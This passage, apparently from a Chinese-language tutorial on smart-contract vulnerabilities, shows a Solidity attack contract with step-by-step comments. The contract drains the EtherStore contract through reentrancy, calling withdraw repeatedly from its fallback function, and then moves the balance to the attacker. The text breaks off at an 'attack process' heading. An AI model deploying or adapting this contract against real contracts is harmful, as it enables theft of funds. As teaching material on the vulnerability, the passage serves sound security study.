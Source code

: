                     constructor(address _etherStoreAddress) public {
                        etherstore = EtherStore(_etherStoreAddress);
                    }
                 
                    //回退函数
                    fallback() external payable {
                        //判断被攻击合约余额大于等于1 ether，是为了避免死循环，死循环时调用将会失败，达不到目的了
                        if (address(etherstore).balance >= 1 ether) {
                            //从被攻击合约中取款
                            etherstore.withdraw(1 ether);
                        } 
                    }
                 
                    //攻击函数
                    function attack() external payable {
                        require(msg.value >= 1 ether);
                 
                        //向被攻击合约存款
                        //etherstore.deposit.value(1 ether)();  //0.6.0版本以前写法
                        etherstore.deposit{value: 1 ether}();
                        //从被攻击合约中取款
                        etherstore.withdraw(1 ether);
                    }
                 
                    //查看合约余额
                    function getContractBalance() external view returns (uint256) {
                        return address(this).balance;
                    }
                 
                    //取出合约余额到外部账户中
                    function withdraw() external payable {
                        payable(msg.sender).transfer(address(this).balance);
                    }
                 
                    //查看外部账户余额
                    function getExternalBalance() external view returns (uint256) {
                        return msg.sender.balance;
                    }
                }
                ```
                
            - 攻击过程
                